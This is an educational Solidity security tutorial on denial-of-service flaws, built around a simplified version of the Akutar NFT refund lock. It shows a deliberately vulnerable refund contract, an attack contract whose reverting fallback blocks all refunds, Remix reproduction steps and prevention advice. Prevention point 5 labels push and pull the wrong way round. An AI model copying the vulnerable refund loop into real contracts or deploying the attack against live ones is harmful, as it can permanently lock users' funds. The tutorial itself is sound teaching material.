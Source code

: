```yaml
---
title: S09. Denial of Service (DoS)
tags:
    - solidity
    - security
    - fallback
---
```


# WTF Solidity S09. Denial of Service (DoS)

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the Denial of Service (DoS) vulnerability in smart contracts and discuss methods for prevention. The NFT project Akutar once suffered a loss of 11,539 ETH, worth $34 million at the time, due to a DoS vulnerability.

## DoS

In Web2, a Denial of Service (DoS) attack refers to the phenomenon of overwhelming a server with a large amount of junk or disruptive information, rendering it unable to serve legitimate users. In Web3, it refers to exploiting vulnerabilities that prevent a smart contract from functioning properly.

In April 2022, a popular NFT project called Akutar raised 11,539.5 ETH through a Dutch auction for its public launch, achieving great success. Participants who held their community Pass were supposed to receive a refund of 0.5 ETH. However, when they attempted to process the refunds, they discovered that the smart contract was unable to function correctly, resulting in all funds being permanently locked in the contract. Their smart contract had a DoS vulnerability.

![](./img/S09-1.png)

## Vulnerability Example

Now let's study a simplified version of the Akutar contract called `DoSGame`. This contract has a simple logic: when the game starts, players call the `deposit()` function to deposit funds into the contract, and the contract records the addresses of all players and their corresponding deposits. When the game ends, the `refund()` function is called to refund ETH to all players in sequence.

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.21;

// Game with DoS vulnerability, players deposit money and call refund to withdraw it after the game ends.
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;
    
    // All players deposit ETH into the contract
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Record the deposit
        balanceOf[msg.sender] = msg.value;
        // Record the player's address
        players.push(msg.sender);
    }

    // Game ends, refund starts, all players receive refunds one by one
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Loop through all players to refund them
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

The vulnerability here lies in the `refund()` function, where a loop is used to refund the players using the `call` function, which triggers the fallback function of the target address. If the target address is a malicious contract and contains malicious logic in its fallback function, the refund process will not be executed properly.

```
(bool success, ) = player.call{value: refundETH}("");
```

Below, we write an attack contract where the `attack()` function calls the `deposit()` function of the `DoSGame` contract to deposit funds and participate in the game. The `fallback()` fallback function reverts all transactions sending ETH to this contract, attacking the DoS vulnerability in the `DoSGame` contract. As a result, all refunds cannot be executed properly, and the funds are locked in the contract, just like the over 11,000 ETH in the Akutar contract.

```solidity
contract Attack {
    // DoS attack during refund
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participate in the DoS game and deposit
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reproduce on `Remix`

**1.** Deploy the `DoSGame` contract.
**2.** Call the `deposit()` function of the `DoSGame` contract to make a deposit and participate in the game.
![](./img/S09-2.png)
**3.** At this point, if the game is over and `refund()` is called, the refund will be executed successfully.
![](./img/S09-3.jpg)
**3.** Redeploy the `DoSGame` contract and deploy the `Attack` contract.
**4.** Call the `attack()` function of the `Attack` contract to make a deposit and participate in the game.
![](./img/S09-4.jpg)
**5.** Call the `refund()` function of the `DoSGame` contract to initiate a refund, but it fails to execute properly, indicating a successful attack.
![](./img/S09-5.jpg)

## How to Prevent

Many logic errors can lead to denial of service in smart contracts, so developers need to be extremely cautious when writing smart contracts. Here are some areas that require special attention:

1. Failure of external contract function calls (e.g., `call`) should not result in the blocking of important functionality. For example, removing the `require(success, "Refund Fail!");` statement in the vulnerable contract allows the refund process to continue even if a single address fails.
2. Contracts should not unexpectedly self-destruct.
3. Contracts should not enter infinite loops.
4. Parameters for `require` and `assert` should be set correctly.
5. When refunding, allow users to claim funds from the contract (push) instead of sending funds to users in batch (pull).
6. Ensure that callback functions do not interfere with the normal operation of the contract.
7. Ensure that the main business of the contract can still function properly even when participants (e.g., `owner`) are absent.

## Summary

In this lesson, we introduced the denial of service vulnerability in smart contracts, which caused the Akutar project to lose over 10,000 ETH. Many logic errors can lead to DoS attacks, so developers need to be extremely cautious when writing smart contracts. For example, refunds should be claimed by users individually instead of being sent in batch by the contract.
